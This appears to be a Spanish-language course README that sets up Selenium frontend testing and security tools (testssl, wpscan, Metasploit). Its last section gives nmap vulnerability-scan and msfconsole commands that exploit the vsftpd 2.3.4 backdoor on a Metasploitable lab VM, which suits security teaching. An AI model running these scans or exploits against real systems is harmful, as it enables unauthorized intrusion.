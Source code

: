 # Setup para testing web con selenium

## Frontend a testear (falta testear bien por problemita ng)

    cd ~/ceiot_base/TSIOT/system/frontend
    npm install
    npm start


Con firefox acceder a http://localhost:4200, ver que se puede hacer login, cerrar.

## Selenium

    cd ~/ceiot_base/TSIOT/system/frontend_test
    npm install
    npm test


# Setup para testing de seguridad

## testssl

    sudo apt install testssl.sh
    
## wpscan

    sudo apt install ruby-dev ubuntu-dev-tools
    sudo gem install wpscan

Obtener una API KEY en https://wpscan.com/api, es conveniente guardarla en un archivo, por ejemplo wpscan.key con la forma KEY=xxxxxxx

    . wpscan.key
    wpscan --url $TARGET --api-token="$KEY"
    
## metasploit + metasploitable

Obtener la virtual de metasploitable en https://information.rapid7.com/download-metasploitable-2017.html y poner en marcha.

Obtener una virtual Kali en https://www.kali.org/get-kali/, ya sea instalando o bajando la VM y poner en marcha.

En una terminal obtener los servicios vulnerables:

    nmap -v --script vuln -p 21,1099 $METASPLOITABLE_IP
    
En la misma u otra terminal, para el puerto 21 (ftp), explotar:    
    
    msfconsole
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS $METASPLOITABLE_IP
    exploit
    